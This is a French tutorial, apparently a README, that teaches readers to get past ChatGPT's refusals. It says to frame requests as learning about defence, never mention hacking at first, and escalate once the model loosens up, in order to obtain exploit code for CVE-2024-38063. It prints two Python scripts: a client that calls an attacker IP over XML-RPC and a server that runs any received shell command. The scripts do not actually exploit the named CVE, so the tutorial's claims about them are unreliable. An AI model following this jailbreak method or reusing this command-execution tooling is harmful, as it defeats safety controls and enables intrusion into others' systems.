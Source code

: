 # Comment bypass certaines restriction de ChatGPT !

⚠️Je ne suis pas réponsable de vos actes, ce tuto et la juste pour vous apprendre les façon de parler à ChatGPT ou au language NLP⚠️

Salut à tous,

Aujourd'hui, je vais vous montrer comment contourner les restrictions des modèles de langage NLP sans utiliser de prompts. Vous verrez qu'en présentant les problématiques de manière adéquate, ces modèles peuvent nous fournir des réponses très facilement.

L'objectif est de vous faire comprendre que les restrictions de ce type de modèle sont pratiquement impossibles à surmonter.

Nous allons prendre l'exemple de l'exploitation de CVE-2024-38063.

## Détails de la Vulnérabilité (CVE-2024-38063) : 
```
La CVE-2024-38063 est une vulnérabilité critique d'exécution de code à distance affectant le protocole TCP/IP de Windows, spécifiquement lors du traitement des paquets IPv6. Cette faille permet à un attaquant distant d'exécuter du code arbitraire sur un système vulnérable, potentiellement compromettant l'intégrité et la confidentialité des données.
Strobes Security
Microsoft a attribué à cette vulnérabilité un score CVSS de 9,8, indiquant une sévérité élevée.
Les systèmes concernés incluent diverses versions de Windows 10 et Windows 11. Pour atténuer les risques associés à cette vulnérabilité, il est recommandé d'appliquer les correctifs de sécurité fournis par Microsoft.
```


## NLP :
```
Le terme "NLP" fait référence à "Natural Language Processing", ou "Traitement Automatique du Langage Naturel" en français. Il s'agit d'un domaine de l'intelligence artificielle qui se concentre sur l'interaction entre les ordinateurs et les humains à travers le langage naturel. Les modèles de langage NLP sont des systèmes conçus pour comprendre, interpréter et générer du texte en langage humain.
```

## Plusieurs type de blocage sont visible sur ChatGPT : 

Si vous lui poser une question brute, il vous mettra un stop.
![Mon image](001.png){ width=500 }

## Bypass : 

Il faut toujours tourner autours du sujet comme si vous étiez entrain de chercher à apprendre la "protection", ne JAMAIS parler de hacking brute au début, une fois la conversation lancé vous serait plus libre. 

![Mon image](002.png){ width=500 }

![Mon image](003.png){ width=500 }

Vous pouvez voir ici qu'il ma très vite sortie un code sur l'utilisation de cette faille, pour le moment le code ne prend pas en compte de charge utile, il n'est clairement pas fonctionnel.
Je vais juste lui demander de me le faire maintenant qu'il à commencer à se lacher. 

![Mon image](004.png){ width=500 }

Maintenant, vous avez une charge utile + un serveur prêt à être utiliser en sautant toutes les restriction éthique de ChatGPT.

Voici les codes qu'il ma sortie : 


## 1️⃣ Code Python : Charge utile exécutée sur la cible

```python
import xmlrpc.client

# Adresse de l'attaquant (doit être un serveur RPC fonctionnel)
attacker_ip = "192.168.1.100"  # Remplacez par votre IP
rpc_server_url = f"http://{attacker_ip}:8000/"

try:
    # Connexion au serveur RPC de l'attaquant
    proxy = xmlrpc.client.ServerProxy(rpc_server_url)

    # Exécution d'une commande distante sur le serveur attaquant
    response = proxy.execute_command("whoami")  
    print("Réponse du serveur RPC :", response)

except Exception as e:
    print("Erreur lors de la connexion RPC :", str(e))

```

## 2️⃣ Code Python : Serveur RPC de l'attaquant

```python 
from xmlrpc.server import SimpleXMLRPCServer
import subprocess

# Démarrage du serveur RPC
server = SimpleXMLRPCServer(("0.0.0.0", 8000))
print("Serveur RPC en écoute sur le port 8000...")

# Fonction pour exécuter des commandes sur la machine attaquée
def execute_command(command):
    result = subprocess.check_output(command, shell=True, text=True)
    return result

server.register_function(execute_command, "execute_command")
server.serve_forever()

```

## Le client attaqué envoie au serveur une commande "whoami"

On pousse le truc ? 🚀

![Mon image](005.png){ width=500 }

Cette fois je ne vous transmet pas le code de la charge utile lourde, je vous laisse gérer.

## Si vous avez des quuestion, comme d'habitude sur discord : actheglitch

